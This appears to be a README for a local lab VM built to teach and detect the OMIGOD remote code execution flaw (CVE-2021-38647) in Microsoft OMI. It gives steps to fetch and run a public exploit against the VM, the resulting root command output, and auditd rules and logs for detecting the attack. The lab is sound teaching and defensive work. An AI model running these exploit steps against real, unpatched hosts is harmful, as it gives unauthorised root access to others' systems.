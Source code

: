 # Readme

An educational lab VM to learn about the 9.6 CVSS unauthenticated Remote Code Execution (RCE) vulnerability in Open Management Infrastructure software (CVE-2021-38647).

Disclosure (original research): https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

OMI source code: https://github.com/microsoft/omi

Public exploit code:
* https://github.com/horizon3ai/CVE-2021-38647
* https://github.com/Immersive-Labs-Sec/cve-2021-38647

news:
* https://nakedsecurity.sophos.com/2021/09/16/omigod-an-exploitable-hole-in-microsoft-open-source-code/
* https://www.zdnet.com/article/omigod-azure-users-running-linux-vms-need-to-update-now/
* https://threatpost.com/microsoft-patch-tuesday-exploited-windows-zero-day/169459/

Write up:
* https://censys.io/blog/understanding-the-impact-of-omigod-cve-2021-38647/

Read some of the above before proceeding.

## Setup

* Install [Vagrant](https://www.vagrantup.com/)
* Install a [supported hypervisor](https://app.vagrantup.com/generic/boxes/ubuntu2004) for your VM

```shell
vagrant up
vagrant ssh
/opt/omi/bin/omicli iv root/scx { SCX_OperatingSystem } ExecuteShellCommand { command 'uptime' timeout 0 }
```

This will setup Ubuntu 20.04 (Focal Fossa). Thanks [Roboxes](https://roboxes.org/) for the Vagrant box.

Installed by `playbook.yml`:

* omi-1.6.8-0.ssl_110.ulinux.x64.deb - `sha256:2e0813ee3f2a71028f071d9933ca2f336faaaf9b6126d5f1767ffcbc7e803279`
* scx-1.6.8-1.ssl_110.ulinux.x64.deb - `sha256:1cba16e3b307177cbe15bd3fd8a2a87ab8d638846988202be8a17981b5e900c9`

Don't put this VM on the internet :-)

## Exploiting

Thanks to vagrant a port forward on localhost:5986 to 5986 in the VM will be open after bring the box up. We have a lab VM to test with now.

To run the exploit from your desktop or inside the VM after reading `omigod.py`, this is why the git commands checkout a set commit! Do not run unknown random exploit code.

```shell
cd ~/Downloads
git clone https://github.com/horizon3ai/CVE-2021-38647.git
cd CVE-2021-38647
git checkout 2eaf8ab6f1fe8f1691401a3e36da4407997f4cfc || exit 1
python3 -m venv omigod-env
source omigod-env/bin/activate
python3 -m pip install requests urllib3
python3 omigod.py -t 127.0.0.1 -c hostname
```

You should see `ubuntu2004.localdomain` as the output the the hostname command. 

Or if you run `id` command you can see:

```
uid=0(root) gid=0(root) groups=0(root)
```

😬

## Using omi

The Getting Started doco from MS:
https://github.com/microsoft/omi/blob/master/Unix/doc/omi/omi.pdf

## Detect

Inside the VM auditd is installed.

Log all command exec:

```shell
sudo auditctl -a exit,always -F arch=b32 -S execve -k execve
sudo auditctl -a exit,always -F arch=b64 -S execve -k execve
```

```shell
sudo tail -f /var/log/audit/audit.log
```

The output from sending a command:

```
type=SYSCALL msg=audit(1631977306.937:107): arch=c000003e syscall=59 success=yes exit=0 a0=7f906c002570 a1=7f906c001330 a2=7fffe5148108 a3=7f90751453f0 items=2 ppid=8552 pid=9974 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=4294967295 comm="sh" exe="/usr/bin/dash" key="execve"
type=EXECVE msg=audit(1631977306.937:107): argc=3 a0="/bin/sh" a1="-c" a2="whoami"
type=CWD msg=audit(1631977306.937:107): cwd="/var/opt/microsoft/scx/tmp"
type=PATH msg=audit(1631977306.937:107): item=0 name="/bin/sh" inode=5374016 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1631977306.937:107): item=1 name="/lib64/ld-linux-x86-64.so.2" inode=5377053 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1631977306.937:107): proctitle=2F62696E2F7368002D630077686F616D69
type=SYSCALL msg=audit(1631977306.937:108): arch=c000003e syscall=59 success=yes exit=0 a0=564c4e436b90 a1=564c4e436b38 a2=564c4e436b48 a3=7f5b83f28850 items=2 ppid=9974 pid=9975 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=4294967295 comm="whoami" exe="/usr/bin/whoami" key="execve"
type=EXECVE msg=audit(1631977306.937:108): argc=1 a0="whoami"
type=CWD msg=audit(1631977306.937:108): cwd="/var/opt/microsoft/scx/tmp"
type=PATH msg=audit(1631977306.937:108): item=0 name="/usr/bin/whoami" inode=5374366 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1631977306.937:108): item=1 name="/lib64/ld-linux-x86-64.so.2" inode=5377053 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1631977306.937:108): proctitle="whoami"
```

Someone has run "whoami".

Microsoft note this in the blog post "Additional Guidance Regarding OMI Vulnerabilities within Azure VM Management Extensions" on detection:

https://msrc-blog.microsoft.com/2021/09/16/additional-guidance-regarding-omi-vulnerabilities-within-azure-vm-management-extensions/
